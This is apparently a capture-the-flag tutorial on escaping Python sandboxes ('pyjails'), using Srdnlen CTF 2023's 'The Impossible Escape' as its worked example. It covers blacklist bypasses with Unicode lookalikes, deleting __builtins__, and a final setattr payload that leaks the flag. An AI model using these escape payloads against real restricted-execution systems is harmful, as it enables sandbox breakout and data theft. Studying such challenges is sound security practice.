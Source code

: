 # How easily solve a pyjail

Generally, by following this list you will be able to solve any pyjail and (maybe) quickly:
 - Check what you have available (`builtins`, `keywords`, global/local variables, internal attributes (`__subclasses__`, `__globals__`, `__self__`, `__builtins__`, `__spec__`))
 - Check if builtins can be overridden (also check if `__builtins__` can be overridden):
     - If this is possible, this can be useful: https://rszalski.github.io/magicmethods/
 - If the pyjail is built like this:
     ```py
     while True:
         code = input()
         assert "." not in code
         exec(code, {"__builtins__": {}})
     ```
     You can delete the current `__builtins__` in order to        restore them simply using `del __builtins__` (thanks @Loldemort). If `del` is not available, you can still delete `__builtins__` in [different ways](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#deleting-a-variable)
 - Check how a blacklist is applied to the input:
     - If there is a content blacklist (eg. `assert 'exec' not in code`), you can try to bypass it using [Python Unicode Compatibility](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#deleting-a-variable):
     ```py
     exec == 𝘦𝘹𝘦𝘤 == 𝙚𝓍𝓮𝘤
     ```

I'm using `The Impossible Escape` from `Srdnlen ctf 2023` as an example.

## Overview

Here's the source code of the challenge:
```py
class TIE:
    def __init__(self) -> None:
        print(banner)
        self.flag = getenv("FLAG", "srdnlen{REDACTED}")
        self.code = self.code_sanitizer(input("Submit your BEST (and perhaps only) Escape Plan: "))
        self.delete_flag()
        exec(self.code)

    def code_sanitizer(self, dirty_code: str) -> str:
        if not dirty_code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_letters = ["m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k", "g"]
        banned_symbols = ["}", "{", "[", "]", ":", "&", "`", "'", "-", "+", "\\", ".", "="]
        banned_words = ["flag", ]

        if any(map(lambda c: c in dirty_code, banned_letters + banned_symbols + banned_words)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        cool_code = dirty_code.replace("\\t", "\t").replace("\\n", "\n")
        return cool_code

    def delete_flag(self) -> None:
        self.flag = "You cant grab me ;)"
        print("Too slow... what you were looking for has just been destroyed.")

```

The first thing you should do when solving a pyjail is getting a list of what you can use (you should run this at the end of the pyjail): 
```py
import builtins
import keyword
import string

banned_letters = ["m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k", "g"]
banned_symbols = ["}", "{", "[", "]", ":", "&", "`", "'", "-", "+", "\\", ".", "="]
banned_words = ["flag", ]


print("\n========= Allowed globals =========")
for w in list(globals()):
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)

print("\n========= Allowed builtins =========")
for w in list(builtins.__dict__):
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)


print("\n========= Allowed keywords =========")
for w in list(keyword.kwlist):
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)

print("\n========= Allowed special chars =========")
for w in string.punctuation:
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)

```

Output:


```py
========= Allowed globals =========
__file__
TIE

========= Allowed builtins =========
all
delattr
dir
id
iter
aiter
len
print
repr
setattr
Ellipsis
False
filter
int
list
set
str

========= Allowed keywords =========
False
and
as
assert
def
del
elif
else
if
in
is
pass
raise

========= Allowed special chars =========
!
"
#
$
%
(
)
*
,
/
;
<
>
?
@
^
_
|
~
```

So we're able to call functions, but we're not able to access attributes (we can't use `.`).

We se some interesting output:

```py
setattr
print
TIE
```

Using setattr, we can overwrite functions in order to print the flag... somehow...

Let's analyze this line:

```py
self.flag = getenv("FLAG", "srdnlen{REDACTED}")
```

Internally, Python calls the magic function `__setattr__` with the following parameters:
 - Attribute name (in our case, the attribute name is `'flag'`)
 - Attribute value (in our case, the value is our flag)

So if we overwrite the magic function `__setattr__` with `print`, we can print our flag.

We need to overwrite the function of `<class '__main__.TIE'>`, not its instance.
If we overwrite `__setattr__` of an instance of `TIE`, then our overwrite will not persist.

Final payload:

```py
setattr(TIE,'__setattr__',print);TIE() # Here we create another instance of TIE
```


Another example: https://pwnzer0tt1.it/posts/ez-class/
